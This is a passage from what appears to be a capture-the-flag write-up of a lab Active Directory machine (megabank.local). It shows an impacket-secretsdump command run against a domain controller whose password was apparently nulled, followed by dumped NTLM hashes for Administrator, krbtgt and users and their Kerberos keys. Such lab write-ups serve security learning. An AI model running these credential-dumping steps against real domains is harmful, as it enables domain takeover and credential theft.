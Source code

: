 * The DC should now have a null password

&#x20;   5\. Utilize impacket-secretsdump to dump domain credentials and wmiexec into the machine as Administrator:

```
impacket-secretsdump -just-dc megabank.local/Resolute\$@10.129.60.74

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fb3b106896cdaa8a08072775fbd9afe9:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:49a9276d51927d3cd34a8ac69ae39c40:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
megabank.local\ryan:1105:aad3b435b51404eeaad3b435b51404ee:3f653cb103e005246bc95ceb2f56e30b:::
megabank.local\marko:1111:aad3b435b51404eeaad3b435b51404ee:8276510304cefe6e77c3a9e910ba3a6a:::
megabank.local\sunita:6601:aad3b435b51404eeaad3b435b51404ee:4e67de165ebd5e604d6580b15cfc61b2:::
megabank.local\abigail:6602:aad3b435b51404eeaad3b435b51404ee:3f67ccb851b02ac4ee9f91eeddf1cac7:::
megabank.local\marcus:6603:aad3b435b51404eeaad3b435b51404ee:d546df40747f48ece7e2be7349ec8f1b:::
megabank.local\sally:6604:aad3b435b51404eeaad3b435b51404ee:9d5a37664c09e08e8be59ca3e76c262f:::
megabank.local\fred:6605:aad3b435b51404eeaad3b435b51404ee:7be0fca1b4aec94356b86e4b1de06c4f:::
megabank.local\angela:6606:aad3b435b51404eeaad3b435b51404ee:07fe48603fa7ada83e62d14e54f45127:::
megabank.local\felicia:6607:aad3b435b51404eeaad3b435b51404ee:74dce6edc0eabd905d42e0a7225b80f3:::
megabank.local\gustavo:6608:aad3b435b51404eeaad3b435b51404ee:0b03061f9b79bf6642fe92aee0a109c6:::
megabank.local\ulf:6609:aad3b435b51404eeaad3b435b51404ee:f3dfd5c45de7a953c82fbe99749057c2:::
megabank.local\stevie:6610:aad3b435b51404eeaad3b435b51404ee:eb41b7464f302e573aaa697d191b5569:::
megabank.local\claire:6611:aad3b435b51404eeaad3b435b51404ee:72dc9d1d791307cf5217c8e39a88f56a:::
megabank.local\paulo:6612:aad3b435b51404eeaad3b435b51404ee:4e2d8cc79e15e601c099170a645483e6:::
megabank.local\steve:6613:aad3b435b51404eeaad3b435b51404ee:b8de802a1e7862c6e0e19be9c2baff0f:::
megabank.local\annette:6614:aad3b435b51404eeaad3b435b51404ee:2f9b8f25ec94dd46ecb071c27dc82905:::
megabank.local\annika:6615:aad3b435b51404eeaad3b435b51404ee:5d7226ebae151a224ada8add01bdc21c:::
megabank.local\per:6616:aad3b435b51404eeaad3b435b51404ee:b66616eb72209b81edded1fe63ae8806:::
megabank.local\claude:6617:aad3b435b51404eeaad3b435b51404ee:f059af81cb6022dc5de6389d4a6e6a65:::
megabank.local\melanie:10101:aad3b435b51404eeaad3b435b51404ee:e4a22d8e7bbec871b341c88c2e94cba2:::
megabank.local\zach:10102:aad3b435b51404eeaad3b435b51404ee:434927d08ddb971a8b14e407a58f6e9e:::
megabank.local\simon:10103:aad3b435b51404eeaad3b435b51404ee:25bc108c637a551f8b000054ea8ddc6e:::
megabank.local\naoki:10104:aad3b435b51404eeaad3b435b51404ee:07a1070c03b1a26e53d265d27ecb1a38:::
RESOLUTE$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MS02$:1104:aad3b435b51404eeaad3b435b51404ee:7b71dcfa93cf1f5d37d34497b632c890:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:2c729d2a189d5ffdf4792a66eee8e7d37a6e5c37b57a722c307791e7a466f741
Administrator:aes128-cts-hmac-sha1-96:e175930b43cf0835cf361c9cb8d964b1
Administrator:des-cbc-md5:235e4979aeba1073
krbtgt:aes256-cts-hmac-sha1-96:25c34e568e89ccbc1435fbcd4a1067cf23629530d97656923a216b0de82dd333
krbtgt:aes128-cts-hmac-sha1-96:1dff59da1cf4b1c0fadd113dd2400d0b
krbtgt:des-cbc-md5:adcb106701349864
megabank.local\ryan:aes256-cts-hmac-sha1-96:1d5b6f6aaa4841a9b6fc727c114eafaf0b5cae266f2e47a81095cdce2ecc9f7c
megabank.local\ryan:aes128-cts-hmac-sha1-96:67e6a3eec4210a7c0341b72963da4f12
megabank.local\ryan:des-cbc-md5:62c279a8c1c10bd5
megabank.local\marko:aes256-cts-hmac-sha1-96:6ba81690c81b99f828a7d250e432722a95642c63ea201e8a6ba36db50116f6b2
megabank.local\marko:aes128-cts-hmac-sha1-96:7fa0f0b4a72a1ee50c5340ff5f2e7359
megabank.local\marko:des-cbc-md5:46b083b08a79e973
megabank.local\sunita:aes256-cts-hmac-sha1-96:1c31eaa2f2683cce009513f34b58ffcb880910ba9ae2a493a7850e3e1f55208b
megabank.local\sunita:aes128-cts-hmac-sha1-96:b055a012e88ad88a1478e913054d472c
megabank.local\sunita:des-cbc-md5:898ae62a8989832a
megabank.local\abigail:aes256-cts-hmac-sha1-96:a8473d8954d7f3b017561af651e3683eceb8adab27dad0d97a64fe9889c6c600
megabank.local\abigail:aes128-cts-hmac-sha1-96:c1882b7df861cc12bcf86b490793b8e1
```